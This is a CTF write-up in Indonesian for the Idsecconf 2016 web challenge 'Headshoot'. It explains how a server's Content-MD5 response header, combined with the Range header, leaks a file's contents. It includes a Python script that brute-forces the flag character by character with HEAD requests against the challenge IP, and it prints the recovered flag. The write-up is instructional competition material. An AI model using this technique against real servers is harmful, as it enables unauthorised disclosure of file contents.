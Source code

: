 ```yaml
---
layout: post
title: "Writeup Idsecconf CTF 2016 : Headshoot - 200"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: Web Exploitation
tags: [idsecconf]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://139.59.245.67:8000/`

### Solusi :

Di berikan sebuah website dan lokasi flag di beritahu ada di `http://139.59.245.67:8000/flag.txt`
namun kita hanya bisa menggunakan Method `OPTIONS,HEAD` 

menurut w3 protocol : `The HEAD method is identical to GET except that the server MUST NOT return a message-body in the response. `

`Content-MD5, A Base64-encoded binary MD5 sum of the content of the request body, Content-MD5: Q2hlY2sgSW50ZWdyaXR5IQ== Obsolete`

`echo 'T/JeCTIbbkLdlRS/YqTvHw==' | base64 -d | xxd`

![Headshoot MD5](/images/headshoot_md5.png)

ditemukan md5 `4ff25e09321b6e42dd9514bf62a4ef1f` tidak bisa di decrypt secara online. dan setelah
surving di wikipedia ternyata kita bisa menambahkan header Range: bytes 0-1. dan akan bisa mengatur Response header
dengan menambahkan range kita bisa melakukan bruteforce terhadap MD5 nya perkarakter.

```python
import requests
import hashlib
import string
import binascii


url = 'http://139.59.245.67:8000/flag.txt'

flag = ''


while True:
    headers = {'Range': 'bytes=0-'+str(len(flag)+1)}
    r = requests.head(url, headers=headers)
    md5 = r.headers.get('Content-MD5')
    md5 = binascii.a2b_base64(md5)
    md5 = binascii.hexlify(md5)
    print md5
    for c in string.printable:
        newflag = flag+c
        newmd5 = hashlib.md5(newflag).hexdigest()
        if newmd5==md5:
            flag+=c
            print flag
            break    

```

dan di dapatkan flag : `flag{HaveYouEverSeenMD5ContentHeaderBeforeThis?}`